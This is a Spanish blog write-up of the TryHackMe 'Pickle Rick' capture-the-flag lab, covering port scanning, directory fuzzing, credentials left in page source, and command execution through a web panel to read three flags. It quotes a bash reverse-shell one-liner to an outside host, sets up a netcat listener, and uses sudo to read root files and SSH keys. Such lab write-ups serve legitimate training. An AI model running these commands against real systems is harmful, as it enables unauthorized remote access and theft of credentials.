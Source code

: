 ```yaml
---
layout: single
title: Pickle Rick - TryHackMe
excerpt: "Pickle Rick es un CTF de la plataforma de Tryhackme de dificultad muy facil es una maquina linux donde tendremos que encontrar 3 ingredientes para que Rick pueda hacer su posion para transformarse de vuelta a un humano las credenciales para conectarnos por un panel de login no las daran mientras enumeramos la maquina al final tendremos que leer los ingredientes en un apartado de la web donde podemos ejecutar comandos, en la maquina victima intente enviarme una reverse shell pero esta bloqueado el comando"
date: 2023-03-03
classes: wide
toc: true
toc_label: "Contenido"
toc_icon: "fire"
header:
  teaser: /assets/images/try-writeup-rickm/iconxd.jpeg
  teaser_home_page: true
  icon: /assets/images/tryhackme.webp
categories:
  - Tryhackme
tags:  
  - Linux enumeration
  - Fuzzing
---
```

![](/assets/images/try-writeup-rickm/logo.png)

```bash
❯ ping -c 1 10.10.136.234
PING 10.10.136.234 (10.10.136.234) 56(84) bytes of data.
64 bytes from 10.10.136.234: icmp_seq=1 ttl=61 time=463 ms

--- 10.10.136.234 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 462.876/462.876/462.876/0.000 ms
❯ whichSystem.py 10.10.136.234

10.10.136.234 (ttl -> 61): Linux
```

## PortScan

```bash
❯ nmap -sCV -p22,80 10.10.136.234 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-03 13:01 CST
Nmap scan report for 10.10.136.234
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9828b8ef2be01ade352c2f290d85ec6b (RSA)
|   256 82581151eaa21e774c656f0b2d87580f (ECDSA)
|_  256 6191e8dadcaf7bc3327255efe58cb122 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.90 seconds
```

```bash
❯ nmap --script=http-enum -p80 10.10.136.234 -oN webScan
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-03 13:03 CST
Nmap scan report for 10.10.136.234
Host is up (0.20s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file

Nmap done: 1 IP address (1 host up) scanned in 22.22 seconds
```

## Enumeration

```ruby
❯ whatweb http://10.10.136.234
http://10.10.136.234 [200 OK] Apache[2.4.18], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.136.234], JQuery, Script, Title[Rick is sup4r cool]
```

Y bueno en la web le estan diciendo a `Morty` que le ayude a encontrar los ingredientes para acabar su posion pero que el unico problema es que no sabe donde esta su contraseña

![](/assets/images/try-writeup-rickm/Web1.png)

Si vemos el codigo fuente vemos que encontramos credenciales

![](/assets/images/try-writeup-rickm/Web2.png)

`Username:R1ckRul3s`

Al tener un usuario podemos hacer fuerza bruta para encontrar la contraseña ya que el puerto `22` esta abierto vamos a seguir enumerando

`Nmap` nos resporta rutas interesantes

Encontramos esto en la ruta `robots.txt` no se si sea una contraseña ya que es un `CTF` pero por si acaso vamos a guardarla

![](/assets/images/try-writeup-rickm/Web3.png)

`Wubbalubbadubdub`

Ahora vemos un panel de login

![](/assets/images/try-writeup-rickm/Web4.png)

Esta usundo `php` asi que podemos fuzzear por otras rutas existentes

Encontramos rutas que ya habiamos visto la ruta `portal.php` nos redirige a `login.php`

```bash
❯ gobuster dir -u http://10.10.136.234 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 90 -x php,txt,html --add-slash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.136.234
[+] Method:                  GET
[+] Threads:                 90
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/03/03 13:15:48 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/icons/               (Status: 403) [Size: 294] 
/assets/              (Status: 200) [Size: 2192]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
```

En la ruta `assets` vemos esto

![](/assets/images/try-writeup-rickm/Web5.png)

Vamos a probar el usuario que nos dieron para ver si es correcto

Si probamos lo que encontramos nos deja conectarnos y esta es la web

![](/assets/images/try-writeup-rickm/Web6.png)

`R1ckRul3s:Wubbalubbadubdub`

Si empezamos a ver lo que hay encontramos esto en `Potions`

![](/assets/images/try-writeup-rickm/Web7.png)

Si vemos todo nos redirige a `/denied.php` exepto `Commands`

![](/assets/images/try-writeup-rickm/Web8.png)

Bueno si vemos el codigo fuente  `portal.php` al logiarnos  al parecer vemos algo en base64

![](/assets/images/try-writeup-rickm/Web9.png)

```bash
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

Despues de decodar varias veces la cadena ya que cada que decodeabas de daba otra llegamos a este resultado 

```bash
❯ echo 'cmFiYml0IGhvbGU=' | base64 -d
rabbit hole
```

Y bueno nada interesante vamos a ver que es lo que podemos hacer en el apartado de `comands`

Estamos ejecutando comandos como `www-data` 

![](/assets/images/try-writeup-rickm/Web10.png)

Si hacemos un `ls -la` vemos que hay un archivo `.txt`

![](/assets/images/try-writeup-rickm/Web11.png)

Si lo vemos en la web encontramos esto

![](/assets/images/try-writeup-rickm/Web12.png)

Si hacemos un `hostname -i` estamos ejecutando comandos en la maquina victima asi que para enumerar mejor vamos a ganar acceso

![](/assets/images/try-writeup-rickm/Web13.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

```

Usaremos este `oneliner` que pondremos en la parte donde escribimos comandos

<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Vale al probar varios `oneliners` y ademas poniendo el `&` a `%26` la web me dice esto

![](/assets/images/try-writeup-rickm/Web13.png)

Asi que vamos a tener que descubrir los 2 ingredentes faltantes desde esa parte de la web

Cuando hicimos un `ls -la` nos mostro otro archivo llamado `clue.txt` vamos a ver que encontramos hay

![](/assets/images/try-writeup-rickm/Web14.png)

Si ejecutamos este comando `cd /home;ls -la;pwd` vemos estos usuarios

![](/assets/images/try-writeup-rickm/Web15.png)

Si ejecutamos el comando `cd /home/rick;ls -la;pwd` vemos el segundo ingrediente

```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
/home/rick
```

Si ejecutamos este comando `less /home/rick/"second ingredients"` podemos ver el ingrediente 

```bash
1 jerry tear
```

Ahora solo nos falta el ultimo 

Bueno algo a saber es que si hacemos un `sudo -l` podemos ejecutar cualquier comando como `www-data` sin proporcionar contraseña

```bash
Matching Defaults entries for www-data on ip-10-10-136-234.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-136-234.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Asi que ahora supongo que el ultimo ingrediente esta en la ruta de `root` 

Si ejecutamos este comando `sudo ls -la /root` vemos el `3rd.txt` asi vamos a leerla

```bash
sudo less /root/3rd.txt
```

```bash
3rd ingredients: fleeb juice
```

Intente ver la id_rsa de `root` pero no me dejo me dio el mismo error de `command disabled`

```bash
sudo cat /root/.ssh/authorized_keys
```




